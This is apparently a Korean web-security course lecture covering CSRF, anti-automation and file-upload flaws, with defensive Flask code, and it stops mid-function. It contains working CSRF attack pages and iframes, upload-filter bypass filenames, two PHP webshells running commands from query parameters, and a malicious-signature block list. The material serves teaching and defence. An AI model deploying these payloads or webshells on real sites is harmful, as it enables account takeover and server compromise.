


# 20강: 고급 공격 기법과 종합 대응

## 개요
해킹보안전문가 1급 과정의 20강으로, 웹 애플리케이션 보안의 마지막 단계입니다. CSRF(크로스사이트 리퀘스트 변조), 자동화 공격, 파일 업로드 취약점 등의 고급 공격 기법을 다루고, 종합적인 웹 애플리케이션 보안 대책을 수립하는 방법을 학습합니다.

## 주요 학습 내용

### 1. 크로스사이트 리퀘스트 변조 (CSRF: Cross-Site Request Forgery)

#### 취약점 개요
**웹 애플리케이션에서 정상적인 경로를 통한 요청과 비정상적인 경로를 통한 요청을 서버가 구분하지 못할 경우** 공격자가 스크립트 구문을 이용하여 정상적인 사용자로 하여금 조작된 요청을 전송하도록 하여 게시판 설정 변경 및 자동 댓글, 회원 등급 변경 등의 문제가 발생할 수 있는 취약점입니다.

- **위험도**: 중간 (사용자 권한 탈취)
- **공격 대상**: 사용자 세션을 기반으로 하는 모든 기능

#### CSRF 공격 원리


#### CSRF 공격 방법

##### 1. HTML 폼을 이용한 CSRF
```html
<!-- 공격자가 만든 악성 페이지 -->
<!DOCTYPE html>
<html>
<head>
    <title>무료 상품권 받기</title>
</head>
<body>
    <h1>축하합니다! 무료 상품권에 당첨되셨습니다!</h1>
    <p>아래 버튼을 클릭하여 상품권을 받으세요.</p>
    
    <!-- 숨겨진 CSRF 공격 폼 -->
    <form id="csrf-form" action="https://bank.example.com/transfer" method="POST" style="display:none;">
        <input type="hidden" name="to_account" value="attacker_account">
        <input type="hidden" name="amount" value="1000000">
        <input type="hidden" name="memo" value="Gift">
    </form>
    
    <button onclick="document.getElementById('csrf-form').submit();">
        상품권 받기
    </button>
    
    <!-- 자동 실행되는 CSRF -->
    <script>
        setTimeout(function() {
            document.getElementById('csrf-form').submit();
        }, 1000);
    </script>
</body>
</html>
```

##### 2. IFRAME을 이용한 CSRF
```html
<!-- 보이지 않는 IFRAME을 이용한 공격 -->
<iframe src="https://admin.example.com/user/change-password?new_password=hacked123" 
        width="0" height="0" frameborder="0" style="display:none;">
</iframe>

<!-- 여러 계정 정보를 동시에 변경 -->
<iframe src="https://example.com/admin/user/promote?user_id=attacker&role=admin" 
        width="0" height="0" frameborder="0" style="display:none;">
</iframe>

<iframe src="https://example.com/settings/email?email=attacker@evil.com" 
        width="0" height="0" frameborder="0" style="display:none;">
</iframe>
```

##### 3. Ajax를 이용한 CSRF (SOP 우회)
```javascript
// 공격자의 JavaScript 코드
function csrfAttack() {
    // Image 태그를 이용한 GET 요청 CSRF
    var img = new Image();
    img.src = 'https://example.com/admin/delete-user?user_id=victim';
    
    // Form을 동적으로 생성하여 POST 요청
    var form = document.createElement('form');
    form.method = 'POST';
    form.action = 'https://example.com/account/settings';
    form.style.display = 'none';
    
    var emailField = document.createElement('input');
    emailField.type = 'hidden';
    emailField.name = 'email';
    emailField.value = 'attacker@evil.com';
    form.appendChild(emailField);
    
    var passwordField = document.createElement('input');
    passwordField.type = 'hidden';
    passwordField.name = 'password';
    passwordField.value = 'hacked123';
    form.appendChild(passwordField);
    
    document.body.appendChild(form);
    form.submit();
}

// 페이지 로드 시 자동 실행
window.onload = function() {
    csrfAttack();
};
```

#### CSRF 방어 기법

##### 1. CSRF 토큰 구현
```python
#!/usr/bin/env python3
# 강력한 CSRF 보호 시스템

import hashlib
import hmac
import secrets
import time
from flask import Flask, session, request, jsonify, render_template_string
from functools import wraps

class CSRFProtection:
    def __init__(self, secret_key, token_expiry=3600):
        self.secret_key = secret_key
        self.token_expiry = token_expiry  # 1시간
    
    def generate_csrf_token(self, session_id=None):
        """CSRF 토큰 생성"""
        timestamp = str(int(time.time()))
        random_value = secrets.token_urlsafe(32)
        
        # 세션 ID가 있으면 포함하여 바인딩
        if session_id:
            token_data = f"{session_id}:{timestamp}:{random_value}"
        else:
            token_data = f"{timestamp}:{random_value}"
        
        # HMAC으로 서명
        signature = hmac.new(
            self.secret_key.encode(),
            token_data.encode(),
            hashlib.sha256
        ).hexdigest()
        
        return f"{token_data}:{signature}"
    
    def validate_csrf_token(self, token, session_id=None):
        """CSRF 토큰 검증"""
        if not token:
            return False, "CSRF 토큰이 없습니다"
        
        try:
            parts = token.split(':')
            if len(parts) < 3:
                return False, "토큰 형식이 올바르지 않습니다"
            
            signature = parts[-1]
            token_data = ':'.join(parts[:-1])
            
            # 서명 검증
            expected_signature = hmac.new(
                self.secret_key.encode(),
                token_data.encode(),
                hashlib.sha256
            ).hexdigest()
            
            if not hmac.compare_digest(signature, expected_signature):
                return False, "토큰 서명이 유효하지 않습니다"
            
            # 세션 바인딩 확인
            if session_id:
                if not token_data.startswith(session_id):
                    return False, "토큰이 현재 세션과 일치하지 않습니다"
                timestamp_str = parts[1]
            else:
                timestamp_str = parts[0]
            
            # 토큰 만료 확인
            token_timestamp = int(timestamp_str)
            current_time = int(time.time())
            
            if current_time - token_timestamp > self.token_expiry:
                return False, "토큰이 만료되었습니다"
            
            return True, "토큰이 유효합니다"
            
        except (ValueError, IndexError) as e:
            return False, f"토큰 파싱 오류: {str(e)}"
    
    def csrf_exempt(self, f):
        """CSRF 검증 예외 데코레이터"""
        @wraps(f)
        def decorated_function(*args, **kwargs):
            return f(*args, **kwargs)
        
        decorated_function._csrf_exempt = True
        return decorated_function
    
    def csrf_protect(self, f):
        """CSRF 보호 데코레이터"""
        @wraps(f)
        def decorated_function(*args, **kwargs):
            # CSRF 예외 함수인지 확인
            if hasattr(f, '_csrf_exempt'):
                return f(*args, **kwargs)
            
            # GET 요청은 검증하지 않음 (읽기 전용)
            if request.method == 'GET':
                return f(*args, **kwargs)
            
            # CSRF 토큰 추출
            csrf_token = (
                request.form.get('csrf_token') or
                request.headers.get('X-CSRF-Token') or
                request.json.get('csrf_token') if request.is_json else None
            )
            
            # 토큰 검증
            session_id = session.get('session_id')
            is_valid, message = self.validate_csrf_token(csrf_token, session_id)
            
            if not is_valid:
                return jsonify({'error': f'CSRF 보호: {message}'}), 403
            
            return f(*args, **kwargs)
        
        return decorated_function

# Flask 애플리케이션에서 사용
app = Flask(__name__)
app.secret_key = 'your-super-secret-key'

# CSRF 보호 인스턴스
csrf_protection = CSRFProtection('csrf-secret-key')

@app.before_request
def inject_csrf_token():
    """모든 요청에 CSRF 토큰 생성"""
    if 'session_id' not in session:
        session['session_id'] = secrets.token_urlsafe(32)
    
    # CSRF 토큰 생성하여 세션에 저장
    session['csrf_token'] = csrf_protection.generate_csrf_token(session['session_id'])

@app.context_processor
def inject_csrf():
    """템플릿에 CSRF 토큰 주입"""
    return dict(csrf_token=session.get('csrf_token', ''))

@app.route('/form')
def show_form():
    """폼 페이지"""
    return render_template_string('''
    <!DOCTYPE html>
    <html>
    <head>
        <title>보안 폼</title>
    </head>
    <body>
        <h1>사용자 정보 변경</h1>
        <form method="POST" action="/update-profile">
            <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
            
            <label for="email">이메일:</label>
            <input type="email" name="email" required><br><br>
            
            <label for="phone">전화번호:</label>
            <input type="tel" name="phone"><br><br>
            
            <button type="submit">업데이트</button>
        </form>
        
        <script>
        // Ajax 요청에 CSRF 토큰 자동 포함
        function makeSecureRequest(url, data) {
            data.csrf_token = '{{ csrf_token }}';
            
            return fetch(url, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                    'X-CSRF-Token': '{{ csrf_token }}'
                },
                body: JSON.stringify(data)
            });
        }
        </script>
    </body>
    </html>
    ''')

@app.route('/update-profile', methods=['POST'])
@csrf_protection.csrf_protect
def update_profile():
    """프로필 업데이트 (CSRF 보호됨)"""
    email = request.form.get('email')
    phone = request.form.get('phone')
    
    # 프로필 업데이트 로직
    print(f"프로필 업데이트: 이메일={email}, 전화번호={phone}")
    
    return jsonify({
        'success': True,
        'message': '프로필이 성공적으로 업데이트되었습니다.'
    })

@app.route('/api/data', methods=['POST'])
@csrf_protection.csrf_protect
def api_endpoint():
    """API 엔드포인트 (CSRF 보호됨)"""
    data = request.get_json()
    
    return jsonify({
        'received_data': data,
        'message': 'API 호출 성공'
    })

@app.route('/public-api', methods=['POST'])
@csrf_protection.csrf_exempt
def public_api():
    """공개 API (CSRF 보호 예외)"""
    return jsonify({'message': '공개 API 호출 성공'})

if __name__ == "__main__":
    app.run(debug=True)
```

##### 2. 추가 CSRF 방어 기법
```python
# 고급 CSRF 방어 기법

class AdvancedCSRFProtection(CSRFProtection):
    def __init__(self, secret_key, token_expiry=3600):
        super().__init__(secret_key, token_expiry)
        
    def check_referrer(self, request, allowed_hosts):
        """Referrer 헤더 검증"""
        referrer = request.headers.get('Referer', '')
        
        if not referrer:
            return False, "Referrer 헤더가 없습니다"
        
        try:
            from urllib.parse import urlparse
            parsed_referrer = urlparse(referrer)
            referrer_host = parsed_referrer.netloc
            
            if referrer_host not in allowed_hosts:
                return False, f"허용되지 않은 Referrer: {referrer_host}"
            
            return True, "Referrer 검증 성공"
            
        except Exception as e:
            return False, f"Referrer 파싱 오류: {str(e)}"
    
    def check_origin(self, request, allowed_origins):
        """Origin 헤더 검증"""
        origin = request.headers.get('Origin', '')
        
        if not origin:
            return False, "Origin 헤더가 없습니다"
        
        if origin not in allowed_origins:
            return False, f"허용되지 않은 Origin: {origin}"
        
        return True, "Origin 검증 성공"
    
    def double_submit_cookie_protection(self, request):
        """Double Submit Cookie 패턴"""
        # 쿠키의 CSRF 토큰
        cookie_token = request.cookies.get('csrf_token')
        
        # 요청의 CSRF 토큰
        request_token = (
            request.form.get('csrf_token') or
            request.headers.get('X-CSRF-Token')
        )
        
        if not cookie_token or not request_token:
            return False, "CSRF 토큰이 누락되었습니다"
        
        if not hmac.compare_digest(cookie_token, request_token):
            return False, "CSRF 토큰이 일치하지 않습니다"
        
        return True, "Double Submit Cookie 검증 성공"
    
    def comprehensive_csrf_protect(self, allowed_hosts=None, allowed_origins=None):
        """종합적인 CSRF 보호 데코레이터"""
        def decorator(f):
            @wraps(f)
            def decorated_function(*args, **kwargs):
                if request.method == 'GET':
                    return f(*args, **kwargs)
                
                # 1. 기본 CSRF 토큰 검증
                csrf_token = (
                    request.form.get('csrf_token') or
                    request.headers.get('X-CSRF-Token')
                )
                
                session_id = session.get('session_id')
                is_valid, message = self.validate_csrf_token(csrf_token, session_id)
                
                if not is_valid:
                    return jsonify({'error': f'CSRF 토큰: {message}'}), 403
                
                # 2. Referrer 검증
                if allowed_hosts:
                    ref_valid, ref_message = self.check_referrer(request, allowed_hosts)
                    if not ref_valid:
                        return jsonify({'error': f'Referrer: {ref_message}'}), 403
                
                # 3. Origin 검증
                if allowed_origins:
                    origin_valid, origin_message = self.check_origin(request, allowed_origins)
                    if not origin_valid:
                        return jsonify({'error': f'Origin: {origin_message}'}), 403
                
                # 4. Double Submit Cookie 검증
                cookie_valid, cookie_message = self.double_submit_cookie_protection(request)
                if not cookie_valid:
                    return jsonify({'error': f'Cookie: {cookie_message}'}), 403
                
                return f(*args, **kwargs)
            
            return decorated_function
        return decorator

# 사용 예시
advanced_csrf = AdvancedCSRFProtection('advanced-csrf-key')

@app.route('/secure-transfer', methods=['POST'])
@advanced_csrf.comprehensive_csrf_protect(
    allowed_hosts=['example.com', 'www.example.com'],
    allowed_origins=['https://example.com', 'https://www.example.com']
)
def secure_money_transfer():
    """고도의 보안이 필요한 송금 기능"""
    amount = request.form.get('amount')
    to_account = request.form.get('to_account')
    
    # 송금 로직 실행
    return jsonify({
        'success': True,
        'message': f'{amount}원이 {to_account}로 이체되었습니다.'
    })
```

### 2. 자동화 공격 (Automation Attack)

#### 취약점 개요
**애플리케이션 운영 시 특정 프로세스에 대한 접근시도 횟수 제한을 설정하지 않을 경우** 공격자가 자동화 툴 및 봇을 활용하여 일분에 수백 번의 접근을 시도할 수 있으며 특정 프로세스를 반복 수행함으로써 자동으로 수많은 프로세스(DoS, 무차별 대입 기법 등)가 진행되어 시스템 성능에 영향을 미칠 수 있는 취약점입니다.

#### 자동화 공격 방어 시스템
```python
#!/usr/bin/env python3
# 종합적인 자동화 공격 방어 시스템

import time
import hashlib
import random
import string
from collections import defaultdict, deque
from PIL import Image, ImageDraw, ImageFont
import base64
import io
import redis
import requests
from flask import Flask, request, jsonify, session

class AntiAutomationProtection:
    def __init__(self, redis_client=None):
        self.redis_client = redis_client or redis.Redis(host='localhost', port=6379, db=2)
        
        # 설정
        self.rate_limits = {
            'login': {'requests': 5, 'window': 300},      # 5분에 5번
            'register': {'requests': 3, 'window': 3600},   # 1시간에 3번
            'comment': {'requests': 10, 'window': 600},    # 10분에 10번
            'api': {'requests': 100, 'window': 3600},      # 1시간에 100번
        }
        
        # 의심스러운 행동 패턴 임계값
        self.suspicion_thresholds = {
            'rapid_requests': 20,        # 1분에 20회 이상
            'consistent_timing': 0.1,    # 요청 간격이 0.1초 이하로 일정
            'identical_user_agents': 50, # 같은 User-Agent로 50회 이상
        }
    
    def generate_captcha(self, length=5):
        """CAPTCHA 생성"""
        # 혼동하기 쉬운 문자 제외
        chars = 'ABCDEFGHJKLMNPQRSTUVWXYZ23456789'
        captcha_text = ''.join(random.choices(chars, k=length))
        
        # 이미지 생성
        width, height = 200, 80
        image = Image.new('RGB', (width, height), color='white')
        draw = ImageDraw.Draw(image)
        
        # 폰트 설정 (시스템에 따라 조정 필요)
        try:
            font = ImageFont.truetype("arial.ttf", 36)
        except:
            font = ImageFont.load_default()
        
        # 텍스트 위치 계산
        bbox = draw.textbbox((0, 0), captcha_text, font=font)
        text_width = bbox[2] - bbox[0]
        text_height = bbox[3] - bbox[1]
        x = (width - text_width) // 2
        y = (height - text_height) // 2
        
        # 노이즈 추가
        for _ in range(300):
            x_noise = random.randint(0, width)
            y_noise = random.randint(0, height)
            draw.point((x_noise, y_noise), fill='lightgray')
        
        # 선 추가
        for _ in range(5):
            start = (random.randint(0, width), random.randint(0, height))
            end = (random.randint(0, width), random.randint(0, height))
            draw.line([start, end], fill='gray', width=2)
        
        # 텍스트 그리기
        draw.text((x, y), captcha_text, font=font, fill='black')
        
        # 이미지를 base64로 인코딩
        buffer = io.BytesIO()
        image.save(buffer, format='PNG')
        img_str = base64.b64encode(buffer.getvalue()).decode()
        
        return captcha_text, img_str
    
    def store_captcha(self, session_id, captcha_text):
        """CAPTCHA 답안 저장"""
        key = f"captcha:{session_id}"
        self.redis_client.setex(key, 300, captcha_text)  # 5분 만료
    
    def verify_captcha(self, session_id, user_input):
        """CAPTCHA 검증"""
        key = f"captcha:{session_id}"
        stored_answer = self.redis_client.get(key)
        
        if not stored_answer:
            return False, "CAPTCHA가 만료되었습니다"
        
        stored_answer = stored_answer.decode()
        
        if stored_answer.upper() != user_input.upper():
            return False, "CAPTCHA가 올바르지 않습니다"
        
        # 사용된 CAPTCHA 삭제
        self.redis_client.delete(key)
        return True, "CAPTCHA 검증 성공"
    
    def check_rate_limit(self, identifier, action):
        """요청 속도 제한 확인"""
        if action not in self.rate_limits:
            return True, "제한 없음"
        
        limit_config = self.rate_limits[action]
        key = f"rate_limit:{action}:{identifier}"
        
        current_time = int(time.time())
        window_start = current_time - limit_config['window']
        
        # 현재 윈도우에서 요청 수 확인
        self.redis_client.zremrangebyscore(key, 0, window_start)
        current_count = self.redis_client.zcard(key)
        
        if current_count >= limit_config['requests']:
            return False, f"속도 제한 초과: {action}"
        
        # 새 요청 기록
        self.redis_client.zadd(key, {str(current_time): current_time})
        self.redis_client.expire(key, limit_config['window'])
        
        return True, f"요청 허용 ({current_count + 1}/{limit_config['requests']})"
    
    def analyze_request_pattern(self, ip_address, user_agent):
        """요청 패턴 분석"""
        current_time = time.time()
        
        # 요청 시간 기록
        timing_key = f"request_timing:{ip_address}"
        self.redis_client.lpush(timing_key, current_time)
        self.redis_client.ltrim(timing_key, 0, 99)  # 최근 100개만 유지
        self.redis_client.expire(timing_key, 3600)
        
        # User-Agent 기록
        ua_key = f"user_agent:{user_agent}"
        self.redis_client.incr(ua_key)
        self.redis_client.expire(ua_key, 3600)
        
        # 의심스러운 패턴 확인
        suspicion_score = 0
        suspicion_reasons = []
        
        # 1. 빠른 연속 요청 확인
        recent_requests = self.redis_client.lrange(timing_key, 0, 19)
        if len(recent_requests) >= 20:
            time_diff = float(recent_requests[0]) - float(recent_requests[19])
            if time_diff <= 60:  # 1분 내에 20회 요청
                suspicion_score += 30
                suspicion_reasons.append("빠른 연속 요청")
        
        # 2. 일정한 간격 확인
        if len(recent_requests) >= 5:
            intervals = []
            for i in range(4):
                interval = float(recent_requests[i]) - float(recent_requests[i + 1])
                intervals.append(interval)
            
            if max(intervals) - min(intervals) < self.suspicion_thresholds['consistent_timing']:
                suspicion_score += 25
                suspicion_reasons.append("일정한 요청 간격")
        
        # 3. 같은 User-Agent 사용 빈도
        ua_count = int(self.redis_client.get(ua_key) or 0)
        if ua_count > self.suspicion_thresholds['identical_user_agents']:
            suspicion_score += 20
            suspicion_reasons.append("높은 User-Agent 사용 빈도")
        
        # 4. 일반적이지 않은 User-Agent 확인
        common_browsers = ['Chrome', 'Firefox', 'Safari', 'Edge']
        if not any(browser in user_agent for browser in common_browsers):
            suspicion_score += 15
            suspicion_reasons.append("비정상적인 User-Agent")
        
        return suspicion_score, suspicion_reasons
    
    def require_captcha(self, identifier, action):
        """CAPTCHA 필요 여부 확인"""
        # 최근 실패 횟수 확인
        fail_key = f"failed_attempts:{action}:{identifier}"
        fail_count = int(self.redis_client.get(fail_key) or 0)
        
        if fail_count >= 3:
            return True, "실패 횟수 초과"
        
        # 의심스러운 패턴 확인
        ip_address = identifier.split(':')[0] if ':' in identifier else identifier
        user_agent = identifier.split(':', 1)[1] if ':' in identifier else "Unknown"
        
        suspicion_score, reasons = self.analyze_request_pattern(ip_address, user_agent)
        
        if suspicion_score >= 50:
            return True, f"의심스러운 활동: {', '.join(reasons)}"
        
        return False, "정상 요청"
    
    def record_failure(self, identifier, action):
        """실패 기록"""
        fail_key = f"failed_attempts:{action}:{identifier}"
        self.redis_client.incr(fail_key)
        self.redis_client.expire(fail_key, 3600)  # 1시간 후 만료
    
    def clear_failures(self, identifier, action):
        """성공 시 실패 기록 초기화"""
        fail_key = f"failed_attempts:{action}:{identifier}"
        self.redis_client.delete(fail_key)
    
    def honeypot_field_check(self, form_data):
        """허니팟 필드 확인 (봇 탐지)"""
        honeypot_fields = ['email_confirm', 'website', 'url', 'homepage']
        
        for field in honeypot_fields:
            if field in form_data and form_data[field]:
                return False, f"허니팟 필드 감지: {field}"
        
        return True, "허니팟 검증 통과"
    
    def javascript_challenge(self):
        """JavaScript 챌린지 생성 (헤드리스 브라우저 탐지)"""
        a = random.randint(1, 100)
        b = random.randint(1, 100)
        expected_result = a + b
        
        challenge = {
            'question': f'계산하세요: {a} + {b} = ?',
            'answer': expected_result,
            'timestamp': int(time.time())
        }
        
        return challenge
    
    def verify_js_challenge(self, user_answer, expected_answer, timestamp):
        """JavaScript 챌린지 검증"""
        current_time = int(time.time())
        
        # 너무 빨리 답한 경우 (봇 의심)
        if current_time - timestamp < 3:
            return False, "너무 빨리 응답했습니다"
        
        # 너무 늦게 답한 경우
        if current_time - timestamp > 300:
            return False, "챌린지가 만료되었습니다"
        
        if int(user_answer) != expected_answer:
            return False, "잘못된 답변입니다"
        
        return True, "JavaScript 챌린지 성공"

# Flask 애플리케이션에서 사용
app = Flask(__name__)
app.secret_key = 'automation-protection-key'

# 자동화 방어 인스턴스
anti_automation = AntiAutomationProtection()

def get_client_identifier(request):
    """클라이언트 식별자 생성"""
    ip_address = request.remote_addr
    user_agent = request.headers.get('User-Agent', 'Unknown')
    return f"{ip_address}:{user_agent}"

@app.route('/api/captcha', methods=['GET'])
def get_captcha():
    """CAPTCHA 이미지 생성"""
    session_id = session.get('session_id', 'anonymous')
    captcha_text, captcha_image = anti_automation.generate_captcha()
    
    # CAPTCHA 답안 저장
    anti_automation.store_captcha(session_id, captcha_text)
    
    return jsonify({
        'captcha_image': f"data:image/png;base64,{captcha_image}",
        'message': '위 이미지의 문자를 입력하세요'
    })

@app.route('/api/js-challenge', methods=['GET'])
def get_js_challenge():
    """JavaScript 챌린지 생성"""
    challenge = anti_automation.javascript_challenge()
    session['js_challenge'] = challenge
    
    return jsonify({
        'question': challenge['question'],
        'timestamp': challenge['timestamp']
    })

@app.route('/login', methods=['POST'])
def login():
    """로그인 (자동화 방어 적용)"""
    data = request.get_json() or request.form.to_dict()
    username = data.get('username')
    password = data.get('password')
    captcha_input = data.get('captcha')
    js_answer = data.get('js_answer')
    
    client_id = get_client_identifier(request)
    session_id = session.get('session_id', 'anonymous')
    
    # 1. 속도 제한 확인
    rate_ok, rate_message = anti_automation.check_rate_limit(client_id, 'login')
    if not rate_ok:
        return jsonify({'error': rate_message}), 429
    
    # 2. 허니팟 필드 확인
    honeypot_ok, honeypot_message = anti_automation.honeypot_field_check(data)
    if not honeypot_ok:
        return jsonify({'error': '봇 활동이 감지되었습니다'}), 403
    
    # 3. CAPTCHA 필요 여부 확인
    need_captcha, captcha_reason = anti_automation.require_captcha(client_id, 'login')
    
    if need_captcha:
        if not captcha_input:
            return jsonify({
                'error': f'CAPTCHA 인증이 필요합니다: {captcha_reason}',
                'require_captcha': True
            }), 400
        
        captcha_valid, captcha_message = anti_automation.verify_captcha(session_id, captcha_input)
        if not captcha_valid:
            anti_automation.record_failure(client_id, 'login')
            return jsonify({'error': captcha_message}), 400
    
    # 4. JavaScript 챌린지 확인
    if 'js_challenge' in session and js_answer:
        challenge = session['js_challenge']
        js_valid, js_message = anti_automation.verify_js_challenge(
            js_answer, challenge['answer'], challenge['timestamp']
        )
        
        if not js_valid:
            anti_automation.record_failure(client_id, 'login')
            return jsonify({'error': js_message}), 400
        
        # 사용된 챌린지 삭제
        session.pop('js_challenge', None)
    
    # 5. 실제 로그인 검증
    if authenticate_user(username, password):
        anti_automation.clear_failures(client_id, 'login')
        return jsonify({
            'success': True,
            'message': '로그인 성공'
        })
    
    else:
        anti_automation.record_failure(client_id, 'login')
        return jsonify({'error': '로그인 실패'}), 401

@app.route('/register', methods=['POST'])
def register():
    """회원가입 (자동화 방어 적용)"""
    data = request.get_json() or request.form.to_dict()
    client_id = get_client_identifier(request)
    
    # 속도 제한 및 패턴 분석
    rate_ok, rate_message = anti_automation.check_rate_limit(client_id, 'register')
    if not rate_ok:
        return jsonify({'error': rate_message}), 429
    
    # 허니팟 확인
    honeypot_ok, honeypot_message = anti_automation.honeypot_field_check(data)
    if not honeypot_ok:
        return jsonify({'error': '자동 가입이 감지되었습니다'}), 403
    
    # CAPTCHA 항상 필요
    captcha_input = data.get('captcha')
    if not captcha_input:
        return jsonify({
            'error': 'CAPTCHA 인증이 필요합니다',
            'require_captcha': True
        }), 400
    
    session_id = session.get('session_id', 'anonymous')
    captcha_valid, captcha_message = anti_automation.verify_captcha(session_id, captcha_input)
    if not captcha_valid:
        return jsonify({'error': captcha_message}), 400
    
    # 회원가입 처리
    username = data.get('username')
    email = data.get('email')
    
    # 실제 회원가입 로직
    print(f"회원가입: {username}, {email}")
    
    return jsonify({
        'success': True,
        'message': '회원가입이 완료되었습니다'
    })

def authenticate_user(username, password):
    """사용자 인증 (예시)"""
    # 실제 구현에서는 데이터베이스 확인
    return username == "testuser" and password == "testpass"

if __name__ == "__main__":
    app.run(debug=True)
```

### 3. 파일 업로드 (File Upload) 취약점

#### 취약점 개요
**파일 업로드 기능이 존재하는 웹 애플리케이션에서 확장자 필터링이 제대로 이루어지지 않았을 경우** 공격자가 악성 스크립트 파일(웹쉘)을 업로드하여 웹을 통해 해당 시스템을 제어할 수 있어 명령어 실행 및 디렉터리 열람이 가능하고 웹 페이지 또한 변조가 가능한 취약점입니다.

#### 파일 업로드 공격 기법

##### 1. 확장자 우회 기법
```bash
# 널 바이트 인젝션
webshell.php%00.jpg
webshell.php\x00.jpg

# 대소문자 변형
webshell.PHP
webshell.Php
webshell.pHP

# 확장자 조합
webshell.php.jpg
webshell.jpg.php
webshell.php.gif

# 공백 및 특수문자
webshell.php 
webshell.php.
webshell.php::$DATA (Windows ADS)

# MIME 타입 위조
Content-Type: image/jpeg (실제로는 PHP 파일)
```

##### 2. 웹쉘 예시
```php
<?php
// 간단한 PHP 웹쉘
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    echo "<pre>";
    echo shell_exec($cmd);
    echo "</pre>";
}
?>

<!-- HTML에 숨겨진 웹쉘 -->
<script language="php">
    if ($_GET['c']) {
        eval($_GET['c']);
    }
</script>
```

#### 안전한 파일 업로드 시스템
```python
#!/usr/bin/env python3
# 종합적인 파일 업로드 보안 시스템

import os
import hashlib
import magic
import uuid
import time
from PIL import Image
import subprocess
import tempfile
from flask import Flask, request, jsonify, send_file
from werkzeug.utils import secure_filename
import zipfile
import rarfile

class SecureFileUpload:
    def __init__(self, upload_directory, max_file_size=10*1024*1024):  # 10MB
        self.upload_directory = upload_directory
        self.max_file_size = max_file_size
        
        # 허용된 파일 확장자 (화이트리스트)
        self.allowed_extensions = {
            'image': ['jpg', 'jpeg', 'png', 'gif', 'bmp', 'webp'],
            'document': ['pdf', 'doc', 'docx', 'txt', 'rtf'],
            'archive': ['zip', 'tar', 'gz']
        }
        
        # 허용된 MIME 타입
        self.allowed_mime_types = {
            'image/jpeg', 'image/png', 'image/gif', 'image/bmp', 'image/webp',
            'application/pdf', 'text/plain',
            'application/zip', 'application/x-tar', 'application/gzip'
        }
        
        # 위험한 파일 확장자 (블랙리스트)
        self.dangerous_extensions = {
            'php', 'asp', 'aspx', 'jsp', 'py', 'pl', 'sh', 'bat', 'cmd',
            'exe', 'com', 'scr', 'pif', 'msi', 'dll', 'jar', 'js', 'vbs'
        }
        
        # 악성 파일 시그니처
        self.malicious_signatures = [
            b'<?php',
            b'<%@',
            b'<script',
            b'eval(',
            b'system(',
            b'exec(',
            b'shell_exec(',
            b'passthru(',
            b'base64_decode('
        ]
        
        # 업로드 디렉토리 생성
        os.makedirs(upload_directory, exist_ok=True)
    
    def validate_file_extension(self, filename):
        """파일 확장자 검증"""
        if not filename or '.' not in filename:
            return False, "파일 확장자가 없습니다"
        
        # 여러 확장자 처리 (예: file.php.jpg)
        parts = filename.lower().split('.')
        
        # 모든 확장자 부분 검사
        for part in parts[1:]:  # 첫 번째는 파일명
            if part in self.dangerous_extensions:
                return False, f"위험한 확장자가 감지되었습니다: {part}"
        
        # 마지막 확장자 확인
        last_extension = parts[-1]
        allowed_all = set()
        for ext_list in self.allowed_extensions.values():
            allowed_all.update(ext_list)
        
        if last_extension not in allowed_all:
            return False, f"허용되지 않은 확장자입니다: {last_extension}"
        
        return True, "확장자 검증 통과"
    
    def validate_mime_type(self, file_content):
        """MIME 타입 검증"""
        try:
            # python-magic을 사용한 실제 파일 타입 감지
            mime_type = magic.from_buffer(file_content, mime=True)
            
            if mime_type not in self.allowed_mime_types:
                return False, f"허용되지 않은 파일 타입입니다: {mime_type}"
            
            return True, f"MIME 타입 검증 통과: {mime_type}"
            
        except Exception as e:
            return False, f"MIME 타입 검증 실패: {str(e)}"
    
    def scan_for_malicious_content(self, file_content):
        """악성 콘텐츠 스캔"""
        file_content_lower = file_content.lower()
        
        for signature in self.malicious_signatures:
            if signature in file_content_lower:
